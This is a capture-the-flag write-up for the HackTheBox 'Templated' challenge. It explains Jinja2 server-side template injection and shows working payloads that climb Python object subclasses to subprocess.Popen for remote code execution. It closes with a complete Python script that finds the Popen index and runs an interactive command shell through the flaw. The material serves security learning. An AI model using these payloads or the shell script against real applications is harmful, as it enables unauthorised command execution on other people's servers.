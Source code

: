 ```yaml
---
title: HackTheBox - Templated
date: 2022-05-13 21:30:00
categories: [HackTheBox, Challenges]
tags: [hackthebox, templated, ssti, jinja2, scripting, python]     # TAG names should always be lowercase
img_path: /assets/img/HackTheBox/Templated
---
```

SSTI or Server-Side Template Injection is a vulnerability that always really confused me but at the same time, really
interested me. Add those together and I went about finding out how it worked.<br>

Templating is a way in which developers can take dynamic data from a source and incorporate it into the page. It does
this by having placeholder variables written statically in the source and then having those variables replaced with
the dynamic data such as user input.<br>

In the case of Jinja2, these templates would be written in a way for the formatting engine to use them, such as in
the case of a 404 page:<br>
`The page{% raw %} {{'directory'}} {% endraw %}could not be found`<br>
Would render as:<br>
`The page 'AAAAA' could not be found`<br>

SSTI can occur when user input is concatenated into a template render rather than safely passed into the template.
This allows the user to render their own "templates".<br>

This is what is presumably happening in HackTheBox Templated. With a name like Templated and the only text on the
page referencing an under construction Jinja2 site, the vulnerability isn't exactly hiding.

![Jinja2](templated_jinja2.png "Jinja2")
_Jinja2_

Requesting a random directory, we see it is reflected back into the 404 page.

![404](templated_404.png "404")
_404_

We know it's running Jinja2, we can try and request `{%raw%}{{7 * 7}}{%endraw%}` to see if we can inject our own
"template".

![49](templated_49.png "49")
_Jinja2 SSTI_

Now it gets interesting. We have SSTI. Time to build a payload to get RCE on the container. In Python, everything
is an object and so everything involved in the Jinja2 server is accessible by bouncing around to different objects.<br>

For the first payload, we can bounce back a step to the `string` object by requesting:<br>
```
{%raw%}{{"1337".__class__}}{%endraw%}
```

![class str](templated_classstr.png "class str")
_'<class 'str'>'_

Now that we're in the `'<class 'str'>'` object, we can take another step back to the base of the string object with:<br>
```
{%raw%}{{"1337".__class__.__base__}}{%endraw%}
```

![class object](templated_object.png "class object")
_'<class 'object'>'_

Now we're at the origin, since everything in Python is an object, everything inherits from this object meaning we can
bounce around anywhere we want. We can stop taking steps back and instead take a step forward into a subclass that'll 
allow us to execute commands. In order to enter the subclass we want, we first must list what subclasses are available 
for use:<br>
```
{%raw%}{{"1337".__class__.__base__.__subclasses__()}}{%endraw%}
```

![subclasses](templated_subclasses.png "subclasses")
_That's a lot of subclasses_

`Control + F` is your friend. We can use it to search for classes that'll help us out. In this instance, we can target
`subprocess.Popen`. This operates like a regular Python list. We need to find the index of `subprocess.Popen` in this
list. I'll go over how I found it later, but for now, it's `[414]`:<br>
```
{%raw%}{{"1337".__class__.__base__.__subclasses__()[414]}}{%endraw%}
```

![subprocess](templated_subprocess.png "subprocess")
_subprocess.Popen_

Now that we're right where we want to be. We can achieve RCE with this final payload:<br>
```
{%raw%}{{"1337".__class__.__base__.__subclasses__()[414]('cat flag.txt', shell=True, stdout=-1).communicate()[0]}}{%endraw%}
```


![solved](templated_solved.png "solved")
_Flag_

Now, we've solved the challenge but that's only half the fun. I'm now going to move onto making a nice script to
interact with the RCE. This script also includes how I found the index of `subprocess.Popen`.

---
# Script

The first half of the script will find the index of `subprocess.Popen`. In the interest of not slamming the challenge
with ~600 requests to find the index, I ballparked it around 400 - 500. It then simply checked for `subprocess.Popen`
in all of them and if it finds it, it sets the index in the URL for the second half of the script. You could easily 
hardcode the index after running it once and scrap this part of the script, but there's no fun in that.
{%raw%}
```python
#!/bin/env python3

import requests

challenge = ""

print("[+] Finding Subprocess...")

for i in range(400,500):
	challenge = "http://IP:PORT/{{'abc'.__class__.__base__.__subclasses__()[%s]}}" %i
	r = requests.get(challenge)
	if "subprocess.Popen" in r.text:
		print("[+] Subprocess Found at [{}]".format(i))
		break
```

Now that we have the index of `subprocess.Popen`, we can write the part of the script that'll interact with it in a
terminal-like interface.

```python
print("[+] Spawning Shell...")

while True:
	try:
		command = input("Path-IX> ")
		shell = challenge[:-2] + "('%s', shell=True, stdout=-1).communicate()[0].decode('utf-8').strip()}}" %command
		r = requests.get(shell)
		print("----------\n"+r.text[38:-30]+"\n----------")
	except KeyboardInterrupt:
		print("\n[+] Quitting...")
		quit()
```


Here it simply sets the RCE payload to whatever command is inputted and keeps it open in a constant loop until
KeyboardInterrupt. Added on some extra cleanup at the end of the payload to decode the output and I used
Python slices to cut down on the returned 404 message etc. The most satisfying part of writing a script isn't 
getting it working, it's making it look nice.


![Path-IX](templated_rce.png "Path-IX")
_Shell?_

Full script:
```python
#!/bin/env python3

import requests
challenge = ""

print("[+] Finding Subprocess...")

for i in range(400,500):
	challenge = "http://IP:PORT/{{'abc'.__class__.__base__.__subclasses__()[%s]}}" %i
	r = requests.get(challenge)
	if "subprocess.Popen" in r.text:
		print("[+] Subprocess Found at [{}]".format(i))
		break

print("[+] Spawning Shell...")

while True:
	try:
		command = input("Path-IX> ")
		shell = challenge[:-2] + "('%s', shell=True, stdout=-1).communicate()[0].decode('utf-8').strip()}}" %command
		r = requests.get(shell)
		print("----------\n"+r.text[38:-30]+"\n----------")
	except KeyboardInterrupt:
		print("\n[+] Quitting...")
		quit()
```
{%endraw%}
# :)
